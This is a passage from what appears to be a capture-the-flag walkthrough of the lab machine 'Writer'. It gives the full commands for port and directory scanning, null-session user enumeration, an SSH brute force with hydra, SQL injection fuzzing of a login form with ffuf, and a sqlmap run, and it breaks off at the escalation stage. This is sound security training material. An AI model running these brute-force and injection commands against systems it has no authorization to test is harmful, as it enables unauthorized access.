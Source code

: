 # Writer 10.10.11.101

Core Concepts:

- SMB Enumeration  
- SSH brute forcing  
- pspy64  
- Python code for sending mail  
- Privilege escalation  

## Enumeration

As is tradition, we begin with an nmap scan 

```
nmap -sV -sC 10.10.11.101 -o nmap.writer.txt
```

nmap reveals that ports 22 and 80 are open.  80 usually indicates a website so lets add writer.htb to /etc/hosts and browse to the site.

```
sudo nano /etc/hosts
```

add `10.10.11.101  writer.htb` to the list
now we can browse directly to *writer.htb* in firefox
lets get a good wordlist and use gobuster to enumerate all directories

```
wget https://raw.githubusercontent.com/xmendez/wfuzz/master/wordlist/general/common.txt
gobuster dir -u http://writer.htb -w common.txt -o gobuster.writer.txt
```

gobuster reveals `/about` `/contact` and `/logout` subdirectories
it's likely if we use a larger wordlist we'll find more so lets get a bigger one and run gobuster again

```
wget https://raw.githubusercontent.com/3ndG4me/KaliLists/master/dirbuster/directories.jbrofuzz
gobuster dir -u http://writer.htb -w directories.jbrofuzz -o gobuster.jbrofuzz.writer.txt
```

As suspected with get a handful of additional directories with a bigger wordlist. In particular `/administrative` looks promising.
Browsing to `writer.htb/adminstrative` reveals a login portal as a possible attack vector.
Beforehand, let's finish our enumeration by seeing if we can find any smbshares.

```
smbmap -H 10.10.11.101 -R > smbmap.writer.txt
```

smbmap reveals 3 disks with no access. Let's try to get connected with rpcclient with null session authentication.

```
rpcclient -U "" -N 10.10.11.101
```

The connection is a success, let's enumerate the users.

```
┌──(taylor㉿DESKTOP-72GCBB0)-[~/Documents/Writer]
└─$ rpcclient -U "" -N 10.10.11.101
rpcclient $> enumdomusers
user:[kyle] rid:[0x3e8]
rpcclient $> queryuser kyle
        User Name   :   kyle
        Full Name   :   Kyle Travis
        Home Drive  :   \\writer\kyle
        Dir Drive   :
        Profile Path:   \\writer\kyle\profile
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 16:00:00 PST
        Logoff Time              :      Wed, 06 Feb 2036 07:06:39 PST
        Kickoff Time             :      Wed, 06 Feb 2036 07:06:39 PST
        Password last set Time   :      Tue, 18 May 2021 10:03:35 PDT
        Password can change Time :      Tue, 18 May 2021 10:03:35 PDT
        Password must change Time:      Wed, 13 Sep 30828 19:48:05 PDT
        unknown_2[0..31]...
        user_rid :      0x3e8
        group_rid:      0x201
        acb_info :      0x00000010
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
rpcclient $> 
```

We got my boy Kyle Travis!
At this point I think we've garnered all we can from basic enumeration.  We've identified a potential attack vector at `/adminstrative` and some user credentials we might be able to use for an SSH brute force attack.  It's time to move on to...

## Foothold

Let's start with ssh bruteforcing our boy kyle.  First things first, download rockyou.txt from https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt. Then sick hydra on kyle with the rockyou.txt wordlist.  If you don't already 
have hydra just `sudo apt-get install hydra`.

``` 
hydra -l kyle -P rockyou.txt ssh://writer.htb -VV -f -t 60
```

After a few attempts it looks like the box is refusing ssh connections. Let's try SQL injection on the `/adminstration` subdomain
Let's use burpsuite to start poking around. Intercepting a post request with random creds to administration we see post are sent in the form:

```
POST /administrative HTTP/1.1
Host: 10.10.11.101
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.101/administrative
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

uname=admin&password=password
```

revealing that our user field is `uname` and password field is `password`, go ahead and save this (post.txt).  Let's see if this is vulnerable to injection.
First lets grab a payload.

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/SQLi/Generic-SQLi.txt
```

Now let's s use the payload with ffuf to fuzz a post

```
ffuf -X POST -request post.txt -w Generic-SQLi.txt:UNAME -w Generic-SQLi.txt:PASS -t 200 -c -mode pitchfork -mc all -request-proto http -fs 790 > ffuf.sqli.writer.txt
```

Fuzzing reveals a littany of different sqlinjection you can use for logging in. We'll go with `*/*`. With that we've achieved our initial foothold. It's time for...

## Escalation

Enumerating the site a bit we find a `/stories` section which allows users to post text stories. This immediately jumps out as a potential 
code injection vector. Meanwhile, let's also run sqlmap on the site to see if we can find any other attack vectors.  First save a post request from burpsuite (r.txt).  Now run:

``` 
sqlmap -r r.txt --dbs --batch --level 5 --risk 3 > sqlmap.dbs.writer.txt
```
